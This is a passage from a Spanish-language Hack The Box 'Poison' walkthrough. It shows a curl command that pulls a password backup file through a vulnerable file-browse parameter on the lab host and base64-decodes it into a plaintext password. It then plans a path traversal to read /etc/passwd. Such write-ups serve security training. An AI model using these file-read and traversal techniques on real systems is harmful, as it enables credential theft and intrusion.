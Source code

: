 <img src="/assets/HTB/Poison/pwd.png">


Tenemos una password en base64 que parece ha sido codificada 13 veces al menos. Vamos a tratar de descodificar en nuestro equipo esta password

```bash
❯ curl -s -X GET "http://10.10.10.84/browse.php?file=pwdbackup.txt" | grep -v "password" | tr -d '\n' | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d ; echo
Charix!2#4%6&8(0
```
Tenemos una clave pero nos falta saber usuarios válidos. Como tenemos la capacidad de apuntar a archivos vamos a tratar de ejecutar un Directory Path Traversal para listar el contenido de `/etc/passwd` y así poder listar usuarios del sistema

